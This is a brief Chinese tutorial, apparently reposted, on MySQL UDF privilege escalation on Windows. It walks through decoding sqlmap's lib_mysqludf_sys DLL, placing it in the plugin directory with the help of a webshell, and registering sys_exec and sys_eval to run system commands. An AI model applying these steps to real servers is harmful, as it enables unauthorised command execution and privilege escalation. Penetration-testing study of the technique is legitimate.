 # sqlmap udf 提权过程

> 原文：[http://book.iwonder.run/Tools/Sqlmap/1.html](http://book.iwonder.run/Tools/Sqlmap/1.html)

## 0x01 UDF

UDF（user defined function）用户自定义函数，是 mysql 的一个拓展接口。用户可以通过自定义函数实现在 mysql 中无法方便实现的功能，其添加的新函数都可以在 sql 语句中调用，就像调用本机函数一样。

## 0x02 windows 下 udf 提权的条件

如果 mysql 版本大于 5.1，udf.dll 文件必须放置在 mysql 安装目录的 lib\plugin 文件夹下/ 如果 mysql 版本小于 5.1， udf.dll 文件在 windows server 2003 下放置于 c:\windows\system32 目录，在 windows server 2000 下放置在 c:\winnt\system32 目录。 掌握 mysql 数据库的账户，从拥有对 mysql 的 insert 和 delete 权限，以创建和抛弃函数。 拥有可以将 udf.dll 写入相应目录的权限。

## 0x03 提权方法

如果是 mysql5.1 及以上版本，必须要把 udf.dll 文件放到 mysql 安装目录的 lib\plugin 文件夹下才能创建自定义函数。该目录默认是不存在的，需要使用 webshell 找到 mysql 的安装目录，并在安装目录下创建 lib\plugin 文件夹，然后将 udf.dll 文件导出到该目录。

```
/*

sqlmap\udf\mysql\windows\32 目录下存放着 lib_mysqludf_sys.dll_

sqlmap\udf\mysql\windows\64 目录下为 64 位的 lib_mysqludf_sys.dll_

*/ 
```

首先进入到 sqlmap\extra\cloak\cloak 目录下，执行命令：

```
cloak.py -d -i D:\sqlmap\udf\mysql\windows\32\lib_mysqludf_sys.dll_ 
```

解密之后会在当前目录下生成 dll 文件。

将 dll 文件复制到 mysql 的/lib/plugin 目录下，执行

```
create function sys_exec returns string soname "lib_mysqludf_sys.dll"; 
```

攻击者可以利用 lib_mysqludf_sys 提供的函数执行系统命令。

执行命令：

```
select sys_eval(‘whoami’); 
```

```
/*

函数介绍：

sys_eval，执行任意命令，并将输出返回。

sys_exec，执行任意命令，并将退出码返回。

sys_get，获取一个环境变量。

sys_set，创建或修改一个环境变量。

*/ 
```


